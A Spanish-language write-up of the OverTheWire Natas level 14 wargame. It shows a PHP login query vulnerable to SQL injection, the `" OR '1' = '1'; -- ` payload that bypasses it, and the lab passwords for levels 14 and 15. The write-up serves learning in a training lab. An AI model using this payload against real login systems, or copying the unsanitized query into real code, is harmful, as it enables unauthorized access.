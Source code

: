 # Natas 14

#### URL: http://natas14.natas.labs.overthewire.org/
#### Credenciales: natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

Una inyeccion SQL clasica, la entrada del usuario se agrega a la peticion sin sanitizar

``` php
 $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

Si escribimos en username `" OR '1' = '1'; -- ` y nada en password por ejemplo, se expande a: 
``` php
$query = "SELECT * from users where "" OR '1' = '1'; --`and password="";
```

Notese que despues de -- lo que queda es un comentario y la peticion ahora devuelve todas las filas y por lo tanto el login es valido
``` php
    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
```

![2025-03-20-142636_607x166_scrot](https://github.com/user-attachments/assets/40f56aed-5c7a-4d44-b3c5-1e54cd0e4ebf)

`natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

PD: 
- Nótese que se estan usando comillas dobles para encerrar la entrada de usuario por eso la inyeccion comienza con " y no con '
- Nótese el espacio al final de '--' sin el cual el comentario no funcionará
